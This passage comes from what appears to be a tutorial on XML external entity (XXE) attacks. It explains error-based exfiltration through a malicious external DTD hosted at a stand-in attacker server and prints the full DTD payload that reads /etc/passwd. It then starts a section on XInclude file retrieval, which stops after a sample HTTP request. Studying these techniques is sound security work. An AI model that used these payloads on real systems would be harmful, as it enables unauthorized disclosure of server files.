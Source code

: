 4) In the above case the attack scenario will .. 
   		
   	- 1 - When we send the request with `%prakhar` ENTITY, application go for `http://attacker_server.com/malicious.DTD`
   		
   	- 2 - Then the application run the attacker's `malicious.DTD` file in which 
   		      
   		 - The application first evaluate the `%eval` ENTITY, in which `%exfil` ENTITY is also mentioned i..e  
   		      
   		        `<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///unknown_file/%file;'>">`

          - Then the application calls `%exfil` ENTITY [ &#x25; --> % ] through which application check for
                `file://unknown_file` into it's own server.

           - Then it evaluate `%file` ENTITY and exfiltrate the content of the `file:///etc/passwd` from it's own server.

           - Then the Application send a HTTP response with the error of `unknown_file` and the content of the 
                `file://etc/passwd`.

     - 3 - At last, the attacker will get the the content of the `%file` i..e (/etc/passwd) in the response

5) The attacker server with `malicious.DTD` file look like this at `[http://attacker_server.com/malicious.DTD]`

		<!ENTITY % file SYSTEM "file:///etc/passwd">
		<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///unknown_file/%file;'>">
		%eval;
		%exfil;

6) we get error of `unknown_file` or content of `/etc/passwd`. 
---
### 6 - Exploiting XInclude to retrieve files

1) Consider we're testing an E-commerce application in which application fetches stock of the product from server and the request goes like this ...

	       POST /product/stock HTTP/2
			Host: subdomain.target.com
			Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
			Content-Length: 107
			...
			...
			Connection: close
           ...
           productId=1&storeId=2

2) Now in this case we cannot carry out a classic XXE attack or define a DTD, coz Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. 
An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

3) However, we might be able to use `XInclude` instead. `XInclude` is a part of the XML specification that allows an XML document to be built from sub-documents. we can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where we only control a single item of data that is placed into a server-side XML document.  
